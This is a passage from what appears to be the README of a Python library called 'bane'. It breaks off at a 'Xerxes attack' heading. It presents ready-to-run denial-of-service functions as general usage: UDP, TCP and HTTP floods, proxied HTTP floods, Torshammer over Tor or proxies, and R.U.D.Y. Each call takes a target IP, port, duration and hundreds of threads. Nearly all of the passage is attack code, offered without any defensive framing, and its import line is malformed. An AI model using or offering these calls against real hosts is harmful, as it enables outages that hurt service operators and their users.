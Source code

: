 <br>to import it you just do:



<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.import bane
</pre></div>

---------------------------------------------------------------------------------------------------------------------------
II-Usage (General usage):
---------------------------------------------------------------------------------------------------------------------------

# DDoS:

<h4>UDP FLOOD:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.udp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001)
</pre></div>

<h4>TCP FLOOD:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.tcp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001 , threads=500, timeout=5)
</pre></div>
<h4>HTTP FLOOD:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.http_spam(IP, p= port , duration= 300 ,interval=0.001 , threads=500 , timeout=5)
<h4>HTTP FLOOD using proxies (HTTP/SOCKS4/SOCKS5):</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_http_spam(IP, p= port , duration= 300 ,interval=0.001 , threads=500 , timeout=5)
</pre></div>
<h4>Torshammer attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.torshammer(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5)
</pre></div>
<h4>Torshammer attack but through proxies instead of Tor:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_hammer(IP, p= port , duration= 300 , threads=500 , timeout=5)
</pre></div>
<h4>R.U.D.Y attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.rudy(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5 , form="q" , page="/search.php")
</pre></div>
<h4>Xerxes attack:</h4>
